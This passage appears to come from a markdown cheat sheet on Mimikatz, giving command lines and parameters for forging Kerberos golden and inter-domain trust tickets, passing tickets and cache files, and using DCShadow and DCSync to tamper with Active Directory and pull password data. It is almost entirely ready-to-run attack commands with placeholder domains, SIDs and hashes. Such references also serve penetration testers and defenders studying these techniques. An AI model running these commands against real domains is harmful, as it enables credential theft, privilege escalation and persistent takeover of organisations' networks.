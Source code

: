 Example:

```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```

### Trust Ticket Creation

Trust Tickets are used for accessing resources across domains by leveraging trust relationships. Key command and parameters:

- Command: Similar to Golden Ticket but for trust relationships.
- Parameters:
  - `/target`: The target domain's FQDN.
  - `/rc4`: The NTLM hash for the trust account.

Example:

```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```

### Additional Kerberos Commands

- **Listing Tickets**:

  - Command: `kerberos::list`
  - Lists all Kerberos tickets for the current user session.

- **Pass the Cache**:

  - Command: `kerberos::ptc`
  - Injects Kerberos tickets from cache files.
  - Example: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`

- **Pass the Ticket**:

  - Command: `kerberos::ptt`
  - Allows using a Kerberos ticket in another session.
  - Example: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`

- **Purge Tickets**:
  - Command: `kerberos::purge`
  - Clears all Kerberos tickets from the session.
  - Useful before using ticket manipulation commands to avoid conflicts.

### Active Directory Tampering

- **DCShadow**: Temporarily make a machine act as a DC for AD object manipulation.

  - `mimikatz "lsadump::dcshadow /object:targetObject /attribute:attributeName /value:newValue" exit`

- **DCSync**: Mimic a DC to request password data.
  - `mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit`
